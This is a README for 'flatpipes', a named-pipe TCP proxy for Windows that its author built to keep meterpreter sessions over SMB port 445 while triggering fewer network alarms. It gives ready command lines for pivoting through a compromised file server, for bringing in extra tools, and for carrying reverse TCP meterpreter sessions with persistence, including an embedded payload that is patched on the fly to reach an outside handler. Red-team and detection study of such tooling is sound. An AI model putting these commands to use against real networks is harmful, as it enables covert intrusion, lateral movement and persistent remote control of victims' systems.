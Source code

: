 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.png "help")

Since it seems it can help in various situations, let's list a few:


#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 10001
```

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
```
flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001
```

Finally, netcat on the two hosts on their listeners and chat with yourself.


#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver (x.x.x.x) through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system (y.y.y.y) in the Fileserver's LAN but we can only connect to MS Fileserver 445

On the MS Fileserver (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server (y.y.y.y) in the LAN. All IO is through the flatpipes: 
```
flatpipes.exe pserver sclient pipename . y.y.y.y 22
```

On the jumphost we PIPE connect to the MS fileserver (x.x.x.x), and immediately spawn a TCP listener on localhost 22: 
```
flatpipes.exe pclient sserver pipename x.x.x.x 127.0.0.1 22
```

Just ssh on 127.0.0.1 22 from the jumphost  and you are through the town portal


#### Usage - Send a local port there

The reverse of the above example, useful to download additional tools through eg sftp

On the Server (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it spawn a TCP listener on localhost 22: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 22
```

On the jumphost we PIPE connect to the Server (x.x.x.x), and as soon as pipe negotiation is ok, it will TCP connect to our sFTP file repo (y.y.y.y). All IO is through the flatpipes: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 22
```

SSH on 127.0.0.1 22 from the Server


#### Usage - Reverse TCP meterpreter through pipes (own payload)

On the MS Fileserver (x.x.x.x) again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.


#### Usage - Reverse TCP meterpreter through pipes (embedded payload)

Same as above but the reverse meter payload is embedded in the flatpipes

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter. Note the "revmeter" keyword: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler at y.y.y.y: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

Important note: If you meterpreter listener in waiting on eg 12345 just use the following:
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 12345
```
The first command with "monkey-patch" the meterpreter bytecode on-the-fly to make it locally connect to 54321. At the jumphost, the 12345 can be used without any interruption. It is like NAT'ting a port on a firewall

---

#### TODO
* Supports one connection, think of ways to do multiple connection handling
* Custom payload option (undecided on the transfer format b64?)
* Exception handling. Asap when pipe auth does not work

---

I hope it will help. Comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
